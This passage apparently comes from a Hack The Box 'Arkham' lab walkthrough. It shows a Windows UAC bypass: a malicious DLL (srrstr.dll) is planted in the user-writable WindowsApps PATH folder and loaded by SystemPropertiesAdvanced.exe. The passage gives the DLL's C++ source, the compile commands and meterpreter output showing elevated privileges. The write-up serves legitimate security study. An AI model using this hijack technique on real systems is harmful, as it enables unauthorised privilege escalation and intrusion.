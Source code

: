 ```bash
[*] Migration completed successfully.
```



## DLL Hijacking with systemproperties.exe

For this phase, first we need a malicious DLL to run a WinExec command and send us our shell again.
```cpp
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 WinExec("C:\\Windows\\Microsoft.NET\\Framework\\v4.0.30319\\msbuild.exe C:\\Users\\Batman\\Desktop\\740i.xml", 0);
 return 0;
}
```
Then compile it on our attacker machine.
```bash
root@splinter:~/labs/htb/arkham# i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL srrstr.cpp
root@splinter:~/labs/htb/arkham# i686-w64-mingw32-g++ -shared -o srrstr.dll main.o -Wl,--out-implib,main.a
root@splinter:~/labs/htb/arkham# file srrstr.dll 
srrstr.dll: PE32 executable (DLL) (console) Intel 80386, for MS Windows
```
We can see the WindowsApps folder here in Batman's PATH, this folder is writable by unprivileged users so they can install things from the windows store.
```cmd
C:\Users>echo %PATH%
echo %PATH%
C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;C:\Windows\System32\WindowsPowerShell\v1.0\;C:\Windows\System32\OpenSSH\;C:\Users\Batman\AppData\Local\Microsoft\WindowsApps
```
Copy the srrstr.dll in there and just run the C:\Windows\SysWOW64\SystemPropertiesAdvanced.exe or any other SysWOW64 SystemProperties binary, make sure the msf handler is still running and our shell back this time has much better privileges.
```cmd
msf5 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > shell
Process 4696 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Batman\Desktop>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
```

[arkham]: PS C:\Users\Batman\Documents> whoami